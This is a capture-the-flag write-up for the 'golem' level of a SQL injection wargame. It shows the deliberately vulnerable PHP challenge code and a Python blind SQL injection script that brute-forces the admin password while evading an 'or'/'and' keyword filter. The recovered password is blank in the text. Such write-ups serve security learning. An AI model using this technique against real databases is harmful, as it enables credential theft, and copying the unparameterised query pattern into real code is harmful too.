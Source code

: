 # golem

----------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

Here we have to get the password using blind sql injection and give that as the value to solve the level but here we can't use `or` or `and`

We have to use `||` instead of `or` and `&&` instead of `and`

So I made a script to do that

```python
import requests
import string

session = requests.Session()

url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw=' || pw like '{}%"
cookies = {"PHPSESSID": "t2olebiumhrkeldqqkd0g2c5q0"}
pw = ""
for j in range(10):
    for i in string.printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "#%&"):
            pw += i
            print("Password :", pw)
            break

print("Password :", pw)
```

This gave the password as `` and giving that as the value of pw solved the level.
